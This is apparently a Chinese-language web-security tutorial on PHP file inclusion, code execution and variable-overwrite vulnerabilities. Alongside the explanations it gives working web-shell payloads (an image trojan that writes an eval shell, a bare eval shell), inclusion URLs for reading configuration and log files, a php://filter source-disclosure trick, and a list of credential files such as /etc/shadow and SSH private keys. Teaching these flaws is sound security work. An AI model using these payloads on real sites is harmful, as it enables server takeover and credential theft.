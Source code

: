 # PHP相关漏洞

文件包含漏洞
php://input等伪协议利用
代码执行漏洞
变量覆盖漏洞

## 文件包含漏洞

程序开发人员一般会把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件

而无需再次编写，这种文件调用的过程一般被称为文件包含

程序开发人员一般希望代码更灵活，所以导致客户端可以调用一个恶意文件，造成文件包含漏洞

几乎所有脚本语言都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多

而在JSP、ASP、ASP.NET程序中却非常少，甚至没有，这是有些语言设计的弊端

在PHP中经常出现包含漏洞，但这并不意味着其他语言不存在

## 常见文件包含函数

include(): 执行到include时才包含文件，找不到被包含文件时只会产生警告，脚本将继续执行

require():只要程序一运行就包含文件，找不到被包含的文件时会产生致命错误，并停止脚本

include_once()和require_once():若文件中代码已被包含则不会再次包含

## 利用条件

程序用include()等文件包含函数通过动态变量的范式引入需要包含的文件
用户能够控制该动态变量

漏洞危害
  执行任意代码
  包含恶意文件控制网站
  甚至控制服务器

## 漏洞分类

本地文件包含：可以包含本地文件，在条件允许时甚至能执行代码
  上传图片马，然后包含
  读敏感文件，读PHP文件
  包含日志文件GetShell
  包含/proc/self/envion文件GetShell
  包含data:或php://input等伪协议
  若有phpinfo则可以包含临时文件

远程文件包含：可以直接执行任意代码

要保证php.ini中allow_url_fopen和allow_url_include要为On

## 漏洞挖掘

通过白盒代码审计
黑盒工具挖掘
awvs appscan burp
w3af

### 本地包含漏洞

文件包含漏洞利用条件
  1 include()等函数通过动态变量的方式引入需要包含的文件
  2 用户能控制该动态变量

本地包含漏洞注意事项
  相对路径
  %00截断包含(PHP<5.3.4)
magic_quotes_gps=off才可以，否则%00会被转义

利用技巧

上传图片马，马包含的代码为
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[x]);?>")?>
上传后图片路径为/iploadfile/x.jpg,当访问http://www.cracer.com/xx.php?page=iploadfile/x.jpg时，将会在这个文件夹下生成shell.php，内容为<?php eval($_POST[x]);?>

### 读敏感文件

Windows：                                                         Linux:
C:\boot.ini  //查看系统版本                                        /root/.ssh/authorized_keys
c:\Windows\System32\inetsrv\MetaBase.xml  //IIS配置文件            /root/.ssh/id_rsa
c:\Windows\repair\sam   //存储系统初次安装的密码                    /root/.ssh/id_ras.keystore
c:\Program Files\mysql\my.ini  //Mysql配置                        /root/.ssh/known_hosts
c:\Program Files\mysql\data\mysql\user.MYD   //Mysql root         /etc/passwd
c:\Windows\php.ini   //php配置信息                                 /etc/shadow
c:\Windows\my.ini    //Mysql配置信息                               /etc/my.cnf
                                                                  /etc/httpd/conf/httpd.conf
                                                                  /root/.bash_history
                                                                  /root/.mysql_history
                                                                  /proc/self/fd/fd[0-9]*(文件标识符)
                                                                  /proc/mounts
                                                                  /proc/config.gz

### 包含日志(主要是得到日志的路径)

读日志路径：
文件包含漏洞读取apache配置文件
index.php?page=/etc/init.d/httpd
index.php?page=/etc/httpd/conf/httpd.conf
默认位置/var/log/httpd/access_log

### 读PHP文件

直接包含php文件时，会被解析，不能看到源码，可以用封装协议读取：

?page=php://filter/read=convert.base64-encode/resource=config.php

访问上述URL后会返回config.php中经过Base64加密后的字符串，解密即可得到源码

# 代码执行漏洞

PHP中可以执行代码的函数。如eval()、assert()、"、system()、exec()、shell_exec()、passthru()、escapeshellcmd()、pcntl_exec()等

例如：
<?php eval($_POST[cc123]) ?>

## 命令执行函数

在php中您可以使用下列5个函数来执行外部的应用程序或函数

1 system: 执行一个外部的应用程序并显示输出的结果
2 exec:执行一个外部的应用程序
3 passthru: 执行一个UNIX系统命令并显示原始的输出
4 shell_exec:执行shell命令并返回输出的结果的字符串
5 “"” 运算符：与shell_exec函数的功能相同

# 变量覆盖漏洞产生

变量如果未初始化，且能被用户所控制
在php中，若register_globals为on时尤其严重
此为全局变量覆盖漏洞
当register_global=ON时，变量来源可能是各个不同的地方，比如页面的表单，Cookie等


